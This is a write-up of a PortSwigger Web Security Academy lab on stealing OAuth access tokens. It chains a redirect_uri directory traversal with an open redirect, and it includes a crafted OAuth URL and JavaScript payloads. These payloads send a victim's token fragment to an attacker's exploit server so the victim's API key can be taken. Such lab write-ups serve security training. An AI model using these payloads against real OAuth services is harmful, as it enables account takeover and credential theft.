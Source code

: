 # Stealing OAuth access tokens via an open redirect

## Description

[This lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect) uses an `OAuth` service to allow users to log in with their social media account. Flawed validation by the `OAuth` service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application. 

## Reproduction and proof of concept

1. While proxying traffic through Burp, click **My account** and complete the OAuth login process (`wiener:peter`). Afterwards, you will be redirected back to the blog website.
2. Study the resulting requests and responses. Notice that the blog website makes an API call to the userinfo endpoint at `/me` and then uses the data it fetches to log the user in. Send the `GET /me` request to Burp Repeater.
3. Log out of your account and log back in again. From the proxy history, find the most recent `GET /auth?client_id=[...]` request and send it to Repeater.
4. In Repeater, experiment with the `GET /auth?client_id=[...]` request. Observe that you cannot supply an external domain as `redirect_uri` because it's being validated against a whitelist. However, you can append additional characters to the default value without encountering an error, including the `/../` directory traversal sequence.
5. Log out of your account on the blog website and turn on proxy interception in Burp.
6. In your browser, log in again and go to the intercepted `GET /auth?client_id=[...]` request in Burp Proxy.
7. Confirm that the `redirect_uri` parameter is in fact vulnerable to directory traversal by changing it to:

```text
https://0afd00940493f56bc11235de000a00cb.web-security-academy.net/oauth-callback/../post?postId=1
```

Forward any remaining requests and observe that you are eventually redirected to the first blog post. In your browser, notice that your access token is included in the URL as a fragment.
8. With the help of Burp, audit the other pages on the blog website. Identify the **Next post** option at the bottom of each blog post, which works by redirecting users to the path specified in a query parameter. Send the corresponding `GET /post/next?path=[...]` request to Repeater.
9. In Repeater, experiment with the `path` parameter. Notice that this is an open redirect. You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server.
10. Craft a malicious URL that combines these vulnerabilities. You need a URL that will initiate an OAuth flow with the `redirect_uri` pointing to the open redirect, which subsequently forwards the victim to the exploit server:

```text
https://oauth-0ae200a004f3f5dcc13e332b02eb00e3.oauth-server.net/auth?client_id=pqljknqzyjxcmx466g9ru&redirect_uri=https://0afd00940493f56bc11235de000a00cb.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a8200d604bff535c17a34810190009f.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email
```

11. Test that this URL works correctly by visiting it in your browser. You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.

```text
https://exploit-0a8200d604bff535c17a34810190009f.exploit-server.net/exploit#access_token=nN8ZIvHilG4s7KBOdzYcCX67c_EOP-_6B_oqbkjEMZe&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

12. On the exploit server, create a suitable script at `/exploit` that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:

```text
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

13. To test that everything is working correctly, **Store** this exploit and visit the malicious URL again in your browser. Then, go to the exploit server access log. There should be a request for `GET /?access_token=[...]`.

![Oauth](/_static/images/oauth6.png)

14. You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example:

```text
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0ae200a004f3f5dcc13e332b02eb00e3.oauth-server.net/auth?client_id=pqljknqzyjxcmx466g9ru&redirect_uri=https://0afd00940493f56bc11235de000a00cb.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a8200d604bff535c17a34810190009f.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

![Oauth](/_static/images/oauth7.png)

15. To test that the exploit works, **store** it and then click **View exploit**. The page should appear to refresh, but if you check the access log, you should see a new request for `GET /?access_token=[...]`.

![Oauth](/_static/images/oauth8.png)

16. Deliver the exploit to the victim, then copy their access token from the log.

![Oauth](/_static/images/oauth9.png)

```text
5x-Yiba4AKFqAooI7XQdZXBd2YgUtnFCg3SPODWJaT4
```

17. In Repeater, go to the `GET /me` request and replace the token in the `Authorization: Bearer` header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.

![Oauth](/_static/images/oauth10.png)

18. Use the **Submit solution** button at the top of the lab page to submit the stolen key and solve the lab.

![Oauth](/_static/images/oauth11.png)

## Exploitability

An attacker will need to log in to `wiener:peter`; and then identify an open redirect on the blog website; use this to steal an access token for the admin user's account; use the access token to obtain the admin's API key; and submit the solution using the button provided in the lab banner. 
